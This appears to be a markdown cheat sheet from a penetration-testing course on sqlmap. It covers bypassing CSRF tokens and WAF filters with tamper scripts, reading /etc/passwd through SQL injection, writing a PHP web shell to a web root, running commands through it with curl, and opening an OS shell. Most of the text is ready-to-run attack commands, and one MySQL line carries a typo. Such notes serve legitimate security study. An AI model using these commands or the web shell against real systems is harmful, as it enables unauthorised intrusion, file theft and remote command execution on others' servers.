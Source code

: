 -----
# Bypass Web Application Protections
-----
## Anti-CSRF Token Bypass
- `--csrf-token`: sqlmap will automatically attempt to parse the target response content and search for fresh token values so it can use them in the next request.
- If one of the provided parameters contains any infixes (csrf, xsrf, token), users will be prompted whether to update it in further requests
```bash
sqlmap -u $URL --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

## Unique Value Bypass
- In some cases, web applications only require unique values to be provided inside the parameters (for similar purpose of anti-CSRF). To ensure we include unique values, we use `--randomize` and points it to the key whose value should be unique.
```bash
sqlmap -U "http://www.example.com/?id=1&rp=29125" --randomize="rp" --batch -v 5 | grep URI
```

## Calculated Parameter Bypass
- Another similar mechanism where parameters' values are calculated by another parameters. IN this case, we use `--eval` flag, together with a Python code's being used before the request is sent.
```bash
sqlmap -U "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```

## IP Address Bypass
- We can use `--proxy="socks4://177.39.187.70:33283"` to provide anonymity or the network (or in the event that our IP address is blacklisted)

## Tamper Scripts
- We can use `--tamper=between` to replace all occurrences of greater than operator (>) with `NOT BETWEEN 0 and #` and the equals operator (`=`) with `BETWEEN # AND #`
```bash
sqlmap -u http://157.245.32.216:31030/case11.php?id=1 --batch --dump -D testdb -T flag11 --tamper=between
```
- Use `--list-tampers` to see all options and descriptions.

-----
# OS Exploitation
-----
## File Read/Write
- In MySQL, users must have privilege to `LOAD DATA` and `INSERT`
```mysql
LOAD DTA LOCAL INFILE '/etc/passwd' into TABLE passwd;
```
- Check for DB privileges
```bash
sqlmap -u $URL --is-dba
```

## Read Local Files
- Prerequisite: Must have DBA privileges - `current user is DBA: True`
```mysql
sqlmap -u $URL --file-read "/etc/passwd"
```
- Once the file is saved to PWNBOX, we can view its content
```bash
cat ~/.sqlmap/output/www.example.com/files/_etc_passwd
```

## Writing Local Files
- `--secure-file-priv` configuration must be manually disabled to allow writing data into local files using the `INTO OUTFILE` SQL query. To test if we can write files to the remote server, use `--file-write` and `--file-dest`.
- First, prepare a shell.php
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
- Write file to */var/www/html/*
```bash
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
- Once the file is uploaded to the shell, we can run the code
```bash
curl http://www.example.com/shell.php?cmd=ls+-la
```

## OS Command Execution
- We can simply get an OS shell by using sqlmap with `--os-shell`
```bash
sqlmap -u $URL?id=1 --os-shell
```
- The default technique is `UNION`. However, it does not always work. In this case, we can try other technique by using `--technique=E` (Error-based)